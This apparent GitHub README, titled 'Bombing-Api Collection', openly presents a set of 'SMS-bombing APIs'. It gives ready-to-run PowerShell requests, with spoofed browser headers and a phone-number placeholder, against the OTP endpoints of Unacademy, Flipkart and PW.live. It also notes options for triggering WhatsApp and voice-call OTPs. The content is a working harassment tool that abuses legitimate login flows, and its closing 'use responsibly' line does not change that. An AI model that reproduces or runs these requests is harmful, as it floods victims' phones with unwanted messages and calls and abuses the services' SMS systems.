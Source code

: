 # Bombing-Api Collection 🚀

A meticulously curated and continuously updated repository of **SMS-bombing APIs** designed for developers to access various services for sending bulk SMS. Explore the collection below and stay tuned for exciting new additions coming soon!

## Unacademy SMS API
This API allows sending OTP requests to phone numbers via the Unacademy platform.

### Usage Example (PowerShell)
```powershell
$uri = "https://unacademy.com/api/v3/user/user_check/?enable-email=true"
$body = @{
    phone        = "<PHONE_NUMBER>"
    country_code = "IN"
    otp_type     = 1
    email        = ""
    send_otp     = $true
    is_un_teach_user = $false
} | ConvertTo-Json

$headers = @{
    "Origin"     = "https://unacademy.com"
    "Referer"    = "https://unacademy.com/"
    "User-Agent" = "Mozilla/5.0 (Windows NT 10.0; Win64; x64)"
    "X-Platform" = "0"
}

$response = Invoke-RestMethod -Uri $uri -Method Post -Headers $headers -Body $body -ContentType "application/json"
$response | ConvertTo-Json -Depth 6
```

## Flipkart OTP Generate API
This API enables sending OTP requests to phone numbers via the Flipkart platform.

### Usage Example (PowerShell)
```powershell
$uri = "https://1.rome.api.flipkart.com/api/7/user/otp/generate"

$body = @{
    loginId = "<PHONE_NUMBER>"   # Must include country code (e.g., +91...)
} | ConvertTo-Json

$headers = @{
    "Origin"         = "https://www.flipkart.com"
    "Referer"        = "https://www.flipkart.com/"
    "User-Agent"     = "Mozilla/5.0 (Windows NT 10.0; Win64; x64)"
    "X-User-Agent"   = "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36 FKUA/website/42/website/Desktop"
    "Accept"         = "*/*"
    "Content-Type"   = "application/json"
    "Sec-Fetch-Site" = "same-site"
    "Sec-Fetch-Mode" = "cors"
    "Sec-Fetch-Dest" = "empty"
    "Sec-Ch-Ua"      = "\"Chromium\";v=\"139\", \"Not;A=Brand\";v=\"99\""
    "Sec-Ch-Ua-Mobile" = "?0"
    "Sec-Ch-Ua-Platform" = "\"Windows\""
}

$response = Invoke-RestMethod -Uri $uri -Method Post -Headers $headers -Body $body -ContentType "application/json"
$response | ConvertTo-Json -Depth 6
```

## PW.live (Penpencil) OTP Resend API
This API facilitates resending OTP requests to phone numbers via the PW.live platform.

### Usage Example (PowerShell)
```powershell
$uri = "https://api.penpencil.co/v1/users/resend-otp?smsType=0"

$body = @{
    mobile         = "<PHONE_NUMBER>"        # Replace with user’s mobile number
    organizationId = "5eb393ee95fab7468a79d189"
} | ConvertTo-Json

$headers = @{
    "Origin"         = "https://www.pw.live"
    "Referer"        = "https://www.pw.live/"
    "User-Agent"     = "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36"
    "Sec-Ch-Ua"      = "\"Not=A?Brand\";v=\"24\", \"Chromium\";v=\"140\""
    "Sec-Ch-Ua-Mobile" = "?0"
    "Sec-Ch-Ua-Platform" = "\"Windows\""
    "Content-Type"   = "application/json"
    "Accept"         = "*/*"
    "Accept-Language" = "en-GB,en;q=0.9"
    "Sec-Fetch-Site" = "cross-site"
    "Sec-Fetch-Mode" = "cors"
    "Sec-Fetch-Dest" = "empty"
    "Randomid"       = "2ade3b08-62fe-4507-9440-3b361783061c"
}

$response = Invoke-RestMethod -Uri $uri -Method Post -Headers $headers -Body $body -ContentType "application/json"
$response | ConvertTo-Json -Depth 6
```

### Uses
- `smsType=0`: Sends OTP via SMS
- `smsType=1`: Sends OTP via WhatsApp
- `smsType=2`: Sends OTP via Call

## What's Next?
- More APIs will be added soon to expand your options for bulk SMS services.
- Stay updated for enhanced documentation and additional examples.

*Note*: Use these APIs responsibly and in compliance with applicable laws and terms of service.
